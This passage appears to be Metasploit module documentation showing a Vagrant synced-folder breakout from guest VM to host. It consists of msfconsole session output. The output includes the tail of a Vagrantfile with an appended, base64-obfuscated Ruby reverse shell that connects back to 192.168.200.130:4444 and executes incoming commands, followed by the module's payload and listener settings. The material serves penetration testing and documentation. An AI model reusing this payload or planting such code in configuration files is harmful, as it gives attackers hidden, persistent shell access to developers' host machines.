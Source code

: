 ```
[*] Started reverse TCP handler on 192.168.200.130:4444 
msf6 exploit(multi/handler) > [*] Command shell session 2 opened (192.168.200.130:4444 -> 192.168.200.204:44242) at 2022-10-16 05:46:32 -0400

msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare),138(libvirt)
pwd
/home/user/vagrant/vagrant_getting_started
tail -n 13 Vagrantfile

code = %(cmVxdWlyZSAnc29ja2V0JztjPVRDUFNvY2tldC5uZXcoIjE5Mi4xNjguMjAwLjEzMCIsIDQ0NDQpOyRzdGRpbi5yZW9wZW4oYyk7JHN0ZG91dC5yZW9wZW4oYyk7JHN0ZGVyci5yZW9wZW4oYyk7JHN0ZGluLmVhY2hfbGluZXt8bHxsPWwuc3RyaXA7bmV4dCBpZiBsLmxlbmd0aD09MDsoSU8ucG9wZW4obCwicmIiKXt8ZmR8IGZkLmVhY2hfbGluZSB7fG98IGMucHV0cyhvLnN0cmlwKSB9fSkgcmVzY3VlIG5pbCB9).unpack(%(m0)).first
if RUBY_PLATFORM =~ /mswin|mingw|win32/
inp = IO.popen(%(ruby), %(wb)) rescue nil
if inp
inp.write(code)
inp.close
end
else
if ! Process.fork()
eval(code) rescue nil
end
end
```

### StefanScherer/windows_2019 guest virtual machine in Vagrant 2.3.1 with VirtualBox 6.1 running on Ubuntu 22.04.1

```
msf6 > sessions -i 1 -C sysinfo
[*] Running 'sysinfo' on meterpreter session 1 (10.0.2.15)
Computer        : VAGRANT
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
msf6 > sessions -i 1 -C getuid
[*] Running 'getuid' on meterpreter session 1 (10.0.2.15)
Server username: VAGRANT\test
msf6 > use exploit/multi/local/vagrant_synced_folder_vagrantfile_breakout
[*] Using configured payload ruby/shell_reverse_tcp
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set session 1
session => 1
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > check

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] The service is running, but could not be validated. Could not verify if /vagrant/Vagrantfile is writable.
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set payload ruby/shell_reverse_tcp
payload => ruby/shell_reverse_tcp
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf6 exploit(multi/local/vagrant_synced_folder_vagrantfile_breakout) > set lport 4444
```